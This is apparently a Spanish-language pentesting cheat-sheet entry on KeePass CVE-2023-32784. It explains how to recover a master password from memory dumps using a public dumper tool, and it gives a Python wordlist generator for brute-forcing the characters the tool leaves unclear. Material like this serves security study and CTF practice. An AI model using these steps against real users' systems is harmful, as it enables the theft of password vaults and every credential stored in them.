 #### KEEPASS CVE-2023-32784
- La vulnerabilidad CVE-2023-32784 es una falla en KeePass que permite recuperar la contraseña maestra de la memoria. Esta vulnerabilidad afecta a KeePass 2.x, y no requiere la ejecución de código en el sistema objetivo. La contraseña se puede recuperar desde un volcado de memoria del proceso, archivo de intercambio, archivo de hibernación, varios volcados de crash o un volcado de RAM del sistema completo.
- Hay que instalar dotnet

```bash
# Agregar el repositorio de Microsoft
wget https://packages.microsoft.com/config/debian/11/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb

# Instalar el SDK de .NET 7.0
sudo apt-get update
sudo apt-get install -y dotnet-sdk-7.0
```

- Luego hay que instalar [KeePassPasswordDumper](https://github.com/vdohney/keepass-password-dumper)
- `dotnet run /ruta/al/.dmp`
- Luego algun que otro caracter va a quedar mal, pero se puede iterar sobre este caracter con python.
    - recomiendo utilizar itertools + un string con los caracteres que se quieren probar. 

```python

import itertools
import sys

def generate_combinations(pattern, unknown_chars, output_file):
    # Lista de caracteres posibles para cada posición de la contraseña
    positions = []
    for char in pattern:
        if char == "●":
            positions.append(unknown_chars)
        else:
            positions.append(char)

    # Generar todas las combinaciones posibles
    with open(output_file, "w") as f:
        for combination in itertools.product(*positions):
            f.write(''.join(combination) + "\n")

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Uso: python3 generate_passwords_param.py <pattern> <unknown_chars> <output_file>")
        sys.exit(1)
    
    pattern = sys.argv[1]
    unknown_chars = sys.argv[2]
    output_file = sys.argv[3]

    generate_combinations(pattern, unknown_chars, output_file)

``` 
